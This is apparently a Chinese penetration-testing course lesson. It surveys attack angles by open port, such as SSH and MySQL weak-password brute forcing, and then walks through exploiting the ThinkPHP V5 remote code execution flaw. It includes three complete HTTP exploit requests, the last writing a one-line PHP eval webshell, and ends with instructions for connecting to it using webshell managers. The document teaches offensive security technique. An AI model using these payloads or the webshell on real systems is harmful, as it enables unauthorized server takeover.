






# 网络安全渗透测试：P68：55.寻找突破口，渗透服务器 🎯

在本节课中，我们将学习如何分析目标服务器开放的端口，并从中寻找最有效的突破口进行渗透。我们将以具体的端口为例，讲解常见的攻击思路和工具使用方法，最终目标是获取服务器的访问权限。

## 端口分析与攻击思路 🔍

上一节我们介绍了信息收集与端口扫描，本节中我们来看看如何分析扫描结果并选择攻击路径。针对不同的开放端口，存在不同的潜在攻击方式。

以下是针对常见端口的攻击思路：



*   **2122端口**：此端口通常与特定服务关联。我们可以尝试利用该服务已知的公开漏洞进行攻击。
*   **SSH端口（如22）**：对于运行OpenSSH等服务的端口，可以尝试利用其特定漏洞。更常见的方法是进行**弱口令爆破**。如果目标存在弱口令，我们可以直接登录并获得权限与文件访问能力。
*   **3306端口**：这是MySQL数据库的默认端口。如果该服务允许远程连接，我们可以尝试对数据库进行弱口令爆破。成功连接后即可获得数据库权限。但需注意，管理员通常会禁止该端口的远程访问。
*   **888端口**：此端口常见于**宝塔面板**。访问其后台需要特定的随机目录路径。若不知道此路径，则无法访问登录页面进行后续操作。因此，信息收集（如从页面源码、提示信息中寻找）在此处至关重要。
*   **80/443端口（Web服务）**：这是最常被利用的突破口。Web服务存在漏洞的可能性较大。我们可以通过访问网站、进行目录爆破来发现页面，并根据网站使用的CMS（内容管理系统）、框架等信息，搜索其历史漏洞。

## 实战：以80端口为突破口 🚀



在本次实战中，我们主要通过80端口的Web服务作为突破口。通过访问和目录爆破，我们发现了一个页面，并识别出它使用了 **ThinkPHP V5** 框架，且版本信息已暴露。

根据这些信息，我们可以通过搜索引擎查找该版本ThinkPHP已知的历史漏洞。这里我们联想到一个著名的**远程命令执行漏洞**。我们可以利用此漏洞执行命令，并写入Webshell以获取服务器控制权。

### 漏洞验证与利用

我们使用公开的漏洞验证代码来测试目标是否存在此漏洞。

**1. 验证漏洞存在性**

我们使用第一个POC进行测试，它尝试执行PHP代码 `phpinfo()`。
```http
GET /index.php?s=index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1 HTTP/1.1
```
如果页面成功输出了服务器的PHP配置信息，则证明存在远程命令执行漏洞。

**2. 执行系统命令**

确认漏洞存在后，我们可以尝试执行系统命令。第二个POC构造了执行 `whoami` 命令的请求。
```http
GET /index.php?s=index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami HTTP/1.1
```
服务器返回了命令执行结果（例如 `www-data`），显示了当前Web服务的运行权限。

**3. 写入Webshell**

获取命令执行能力后，下一步是写入一个Webshell文件，以便持久化控制。第三个POC利用 `file_put_contents` 函数写入一句话木马。
```http
GET /index.php?s=index/\\think\\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell123.php&vars[1][]=<?php @eval($_POST[‘cmd’]);?> HTTP/1.1
```
这段代码会在网站目录下创建一个名为 `shell123.php` 的文件，其内容为一句话木马。如果请求返回一个数字（如写入的字节数25），且访问该文件不报错，则说明写入成功。

### 获取服务器权限

成功写入Webshell后，我们便可以通过中国菜刀、蚁剑等Webshell管理工具连接它。



1.  在管理工具中，填写Webshell的URL（例如 `http://target.com/shell123.php`）和连接密码（`cmd`）。
2.  连接成功后，我们便可以在工具中执行系统命令，例如再次执行 `whoami`、`id`、`ls` 等，从而完全控制该Web服务器。



至此，我们便通过80端口的Web应用漏洞，成功渗透并获取了该服务器的权限。

## 总结 📝





本节课中我们一起学习了渗透测试中寻找突破口的完整流程。我们首先分析了目标服务器开放的各类端口及其对应的攻击面，重点强调了Web端口（80/443）作为常见突破口的重要性。随后，我们通过一个实战案例，演示了如何利用ThinkPHP框架的远程命令执行漏洞，逐步完成从漏洞验证、命令执行到写入Webshell并最终获取服务器权限的全过程。关键在于将信息收集（识别CMS与版本）与漏洞利用（搜索并使用合适的POC）相结合，从而找到一条有效的攻击路径。